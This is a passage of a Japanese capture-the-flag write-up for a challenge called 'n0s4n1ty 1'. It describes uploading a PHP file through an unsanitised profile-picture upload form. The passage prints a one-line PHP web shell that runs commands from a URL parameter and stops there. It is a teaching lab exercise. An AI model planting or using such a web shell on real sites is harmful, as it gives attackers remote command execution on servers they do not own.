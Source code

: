 ## n0s4n1ty 1

### Description  
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.


要約すると、  
写真をアップロードできるwebサイトに欠陥があるよ。  
**/root**ディレクトリ内に隠されているFlagを探して！！

---
早速、webサイトにアクセスする。  
下のようなwebサイトが開く。

![](./img/aa41cb7b591d-20250318.png)

ファイルを適当に、アップする。  
どうやら、サニタイズをしていない。  
jpeg/pngだけでなく、phpもアップできる。 

test.phpファイルをアップすると、どうやら、uploadsフォルダに置かれたようだ。
> The file test.php has been uploaded Path: uploads/test.php

phpをアップロードできるので、以下のようなスクリプトをアップロードする。
```php
<?php system($_GET["cmd"]);?>
```

